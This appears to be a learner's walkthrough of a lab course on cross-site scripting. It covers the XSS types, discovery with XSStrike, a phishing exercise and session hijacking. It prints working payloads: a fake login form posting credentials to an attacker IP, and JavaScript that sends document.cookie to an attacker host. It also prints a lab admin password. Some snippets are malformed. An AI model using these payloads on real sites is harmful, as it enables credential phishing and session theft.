

# Cross-site scripting (XSS)

## XSS Basics

XSS vulnerabilities are solely executed on the client-side and hence do not directly affect the back-end server. They can only affect the user executing the vulnerability. The direct impact of XSS vulnerabilities on the back-end server may be relatively low, but they are very commonly found in web applications, so this equates to a medium risk (low impact + high probability = medium risk), which we should always attempt to reduce risk by detecting, remediating, and proactively preventing these types of vulnerabilities.

<figure><figcaption></figcaption></figure>

### Stored XSS

If our injected XSS payload gets stored in the back-end database and retrieved upon visiting the page, this means that our XSS attack is persistent and may affect any user that visits the page.

**To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**

`alert(document.cookie)<script>`

### Reflected XSS

Processed entirely at the back-end of the server. Not persistent as they disappear after a page refresh. Reaches the back-end server and returns to us unfiltered and unsanitised… oh the fun we can have!

**Same task, it’s just that this doesn’t persist:**

`alert(document.cookie)<script/>`

### DOM XSS

Processed completely client-side and non-persistent (disappears after a page refresh).

This type of vulnerability exists when you can use Javascript code to alter a Document Object Model (DOM). To truly understand DOM attacks let’s talk about source and sink…

**Same as above just with DOM…**

``

### XSS Discovery

Automated Discovery

<figure><figcaption></figcaption></figure>

`python xsstrike.py -u “http://SERVER_IP:PORT/index.php?task=test"`

Manual Discovery — XSS Payloads

Long story short, I might need to do some more python classes at some point. Python scripts would make this a hell of a lot more useful later on in my XSS seeking endeavours.

**Utilize some of the techniques mentioned in this section to identify the vulnerable input parameter found in the above server. What is the name of the vulnerable parameter?**

<figure><figcaption></figcaption></figure>

**What type of XSS vuln is it?**

Literally says “Reflections found” so your answer is “reflected”.

## XSS Attacks

### Phishing

Another very common type of XSS attack is a phishing attack. Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker. A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.

**Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag.**

First we use XSStrike python script mentioned earlier to find a payload:

<figure><figcaption></figcaption></figure>

`'><a/+/OnMOUSEoVER%09=%09[8].find(confirm)>v3dm0s`

Add it to make it a valid JavaScript piece of code with the login form from earlier:

`ifconfig`

* find your IP

```
‘><script>document.write(‘<h3>Please login to continue</h3><form action=http://10.10.14.63/><input type=”username” name=”username” placeholder=”Username”><input type=”password” name=”password” placeholder=”Password”><input type=”submit” name=”submit” value=”Login”></form>’);document.getElementById(‘urlform’).remove();</script><!--
```

**Crafted malicious final URL:**

{% embed url="http://10.129.85.225/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2F10.10.14.63%2F%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3Bdocument.getElementById%28%27urlform%27%29.remove%28%29%3B%3C%2Fscript%3E%3C%21--" %}

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### admin:p1zd0nt57341myp455

go to URL: [http://10.129.85.225/phishing/login.php](http://10.129.85.225/phishing/login.php)

login to obtain FLAG

### Session Hijacking

**Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the Admin's cookie and use it in 'login.php' to get the flag.**

URL: http://10.129.85.225/hijacking/index.php

<figure><figcaption></figcaption></figure>

`"><script src=http://10.10.14.63:8080/></script>`

**4x**

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

```
nano script.js
```

```
new Image().src='http://10.10.14.46/index.php?c='+document.cookie;
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

login.php -> update cookie and login

<figure><figcaption></figcaption></figure>

## Skills Assessment

**What is the value of the 'flag' cookie?**



<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Go to Recent post

<figure><figcaption></figcaption></figure>

`"><script src=http://10.10.14.63:8080/comment></script>`

`"><script src=http://10.10.14.63:8080/name></script>`

`"><script src=http://10.10.14.63:8080/url></script>`

<figure><figcaption></figcaption></figure>

\=> VULn field is URL

```
nano script.js
```

```
new Image().src='http://10.10.14.63:8080/index.php?c='+document.cookie;
```


Write a script in the URL field

`<script src=http://10.10.14.63:8080/script.js></script>`

<figure><figcaption></figcaption></figure>

